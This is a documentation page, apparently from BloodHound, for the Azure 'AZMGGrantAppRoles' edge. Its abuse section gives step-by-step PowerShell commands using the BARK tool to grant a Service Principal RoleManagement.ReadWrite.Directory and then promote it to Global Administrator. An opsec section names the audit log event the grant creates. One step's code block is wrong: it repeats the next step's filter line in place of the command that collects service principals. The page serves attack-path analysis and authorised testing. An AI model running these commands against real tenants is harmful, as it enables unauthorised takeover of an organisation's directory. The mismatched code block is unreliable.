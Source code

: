 ---
title: AZMGGrantAppRoles
description: "This edge is created during post-processing."
---

<Frame>
  <img src="/assets/image-2-1.png"/>
</Frame>

It is created against AzureAD tenant objects when a Service Principal has one of the following MS Graph app role assignments:

* AppRoleAssignment.ReadWrite.All
* RoleManagement.ReadWrite.Directory

## Abuse Info

With the ability to grant arbitrary app roles, you can grant the RoleManagement.ReadWrite.Directory app role to a Service Principal you already control, and then promote it or another principal to Global Administrator.

These functions require you to supply an MS Graph-scoped JWT associated with the Service Principal that has the privilege to grant app roles. There are several ways to acquire a JWT. For example, you may use BARK’s Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT by supplying a Service Principal Client ID and secret:

```bash
$MGToken = Get-MSGraphTokenWithClientCredentials `
    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
    -ClientSecret "asdf..." `
    -TenantName "contoso.onmicrosoft.com"
```
Use BARK’s Get-AllAzureADServicePrincipals to collect all Service Principal objects in the tenant:

```bash
$SPs | ?{$_.appId -Like "00000003-0000-0000-c000-000000000000"} | Select id
```
Next, find the MS Graph Service Principal’s ID. You can do this by piping $SPs to Where-Object, finding objects where the appId value matches the universal ID for the MS Graph Service Principal, which is 00000003-0000-0000-c000-000000000000:

```bash
$SPs | ?{$_.appId -Like "00000003-0000-0000-c000-000000000000"} | Select id
```

The output will be the object ID of the MS Graph Service Principal. Take that ID and use it as the “ResourceID” argument for BARK’s New-AppRoleAssignment function. The AppRoleID of ‘9e3f62cf-ca93-4989-b6ce-bf83c28f9fe8’ is the universal ID for RoleManagement.ReadWrite.Directory. The SPObjectId is the object ID of the Service Principal you want to grant this app role to:

```bash
New-AppRoleAssignment `
    -SPObjectId "6b6f9289-fe92-4930-a331-9575e0a4c1d8" `
    -AppRoleID "9e3f62cf-ca93-4989-b6ce-bf83c28f9fe8" `
    -ResourceID "9858020a-4c00-4399-9ae4-e7897a8333fa" `
    -Token $MGToken
```
If successful, the output of this command will show you the App Role assignment ID. Now that your Service Principal has the RoleManagement.ReadWrite.Directory MS Graph app role, you can promote the Service Principal to Global Administrator using BARK’s New-AzureADRoleAssignment.

```bash
New-AzureADRoleAssignment `
    -PrincipalID "6b6f9289-fe92-4930-a331-9575e0a4c1d8" `
    -RoleDefinitionId "62e90394-69f5-4237-9190-012177145e10" `
    -Token $MGToken
```
If successful, the output will include the principal ID, the role ID, and a unique ID for the role assignment.

## Opsec Considerations

When you assign an app role to a Service Principal, the Azure Audit logs will create an event called “Add app role assignment to service principal”. This event describes who made the change, what the target service principal was, and what app role assignment was granted.

## References

* [https://attack.mitre.org/techniques/T1098/](https://attack.mitre.org/techniques/T1098/)
* [https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5](https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5)
* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
